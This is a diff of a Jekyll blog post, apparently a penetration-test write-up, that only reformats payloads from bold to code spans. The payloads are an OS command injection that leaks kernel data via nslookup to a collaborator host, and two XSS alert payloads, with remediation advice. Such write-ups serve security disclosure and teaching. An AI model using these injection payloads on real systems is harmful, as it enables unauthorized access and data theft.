

Before and after one commit to blitz0p3rations/blitz0p3rations.github.io, a Jekyll site: the page built from _posts/2022-08-25-Municipality.md, in a window 1280 px wide and 900 px high, scrolled down 2801 px. Shown: the whole window, without its empty margins (245-1049 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed text lies outside the part shown.

```diff
--- a/_posts/2022-08-25-Municipality.md
+++ b/_posts/2022-08-25-Municipality.md
@@ -44,7 +44,7 @@ Failing to address these vulnerabilities could result in unauthorized access, da
 #### Proof of Concept (PoC)
 The following path was founded vulnerable: /password/index.php
 
-- Detection of OS Injection: Using the payload **values%5Bpassword%5D=test|nslookup $(uname -r).collab.com.&**, the attacker identifies the presence of OS command injection by leveraging the nslookup command to execute the uname -r command, which retrieves the kernel version of the target system.
+- Detection of OS Injection: Using the payload `values%5Bpassword%5D=test|nslookup $(uname -r).collab.com.&`, the attacker identifies the presence of OS command injection by leveraging the nslookup command to execute the uname -r command, which retrieves the kernel version of the target system.
 
 - Achieving Remote Code Execution: With the knowledge of the OS injection vulnerability, the attacker proceeds to execute arbitrary commands to gain control over the target system. In this PoC, the attacker leverages a crafted Python shell payload to establish a reverse shell connection, allowing them to remotely interact with the compromised system.
 #### Remediations
@@ -69,10 +69,10 @@ The provided Proof of Concept (PoC) demonstrates Cross-Site Scripting (XSS) vuln
 
 In the context of the PoC:
 
-- **authRequestCode=</script><script>alert(1)</script>**
+- `authRequestCode=</script><script>alert(1)</script>`
 Here, the value provided for the authRequestCode parameter includes a script tag </script> to prematurely close the preceding script tag, followed by another script tag <script> that contains the JavaScript code alert(1). This payload attempts to execute an alert box with the message "1" when the vulnerable page is loaded by another user.
 
-- **lang=asas';alert(1)//34**
+- `lang=asas';alert(1)//34`
 In this payload, the lang parameter is set to a string asas', followed by the alert(1) JavaScript code. The //34 at the end of the payload appears to be an attempt to comment out the rest of the parameter value. This payload aims to inject an alert box in a similar manner to the previous payload.
 #### Remediations
 - Input Validation: Validate and sanitize all user inputs on the server-side before processing or rendering them. Use input validation libraries or frameworks to ensure that only expected and safe characters are allowed.
```
